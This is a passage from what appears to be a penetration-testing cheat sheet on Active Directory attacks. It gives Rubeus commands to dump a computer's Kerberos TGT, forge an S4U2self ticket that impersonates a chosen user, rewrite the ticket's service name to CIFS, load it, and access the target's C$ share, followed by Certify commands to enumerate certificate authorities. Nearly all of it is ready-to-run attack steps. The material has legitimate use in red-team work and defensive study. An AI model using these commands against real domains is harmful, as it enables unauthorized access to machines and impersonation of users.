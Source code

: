 ````
- Gain access to a domain computer if we have its RC4, AES256 or TGT.
- There are means of obtaining a TGT for a computer without already having local admin access to it, such as pairing the Printer Bug and a machine with unconstrained delegation, NTLM relaying scenarios and Active Directory Certificate Service abuse

#### Dump TGT
```
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:<LUID> /service:krbtgt
```

#### Request TGS
```
.\Rubeus.exe s4u /user:<COMPUTERNAME>$ /msdsspn:cifs/<COMPUTER FQDN> /impersonateuser:<USER TO IMPERSONATE> /ticket:<TGT BASE64> /nowrap
```

- S4u2proxy will fail, the s4uself works. Copy the s4u2self base64 string

#### Save it to disk
```
[System.IO.File]::WriteAllBytes("C:\Users\public\<USER>.kirbi", [System.Convert]::FromBase64String("<TICKET STRING>"))
```

#### Get information of the ticket
```
.\Rubeus.exe describe /ticket:C:\Users\public\<USER>.kirbi
```

- The Servicename is not valid for our use - we want it to be for CIFS.  This can be easily changed, because as we saw in the constrained delegation alternate service name demo, the service name is not in the encrypted part of the ticket and is not "checked".
- Open it in ```Asn1Editor```.  Find the two instances where the GENERAL STRING <COMOTERNAME>$" appears.
- Double-click them to open the Node Content Editor and replace these strings with "cifs".  We also need to add an additional string node with the FQDN of the machine. Right-click on the parent SEQUENCE and select New.  Enter 1b in the Tag field and click OK.  Double-click on the new node to edit the text.
- First one should be CIFS, second one the FQDN of the machine.
 
![afbeelding](https://user-images.githubusercontent.com/43987245/159697361-dab68723-e4d7-4966-9e6c-fad2f658457b.png)

#### Load the ticket
```
.\Rubeus.exe /ticket:<TICKET BASE64>
.\Rubeus.exe /ticket:<FILE TO KIRBI FILE>
```
 
#### Execute ls on the computer
```
ls \\<COMPOTERNAME FQDN>\C$
```
 
## Active Directory Certificate Services
- Whitepaper https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf
- https://github.com/GhostPack/Certify

#### Find AD CS Certificate authorities (CA's)
```
.\Certify.exe cas
```

### Misconfigured Certificate Templates
````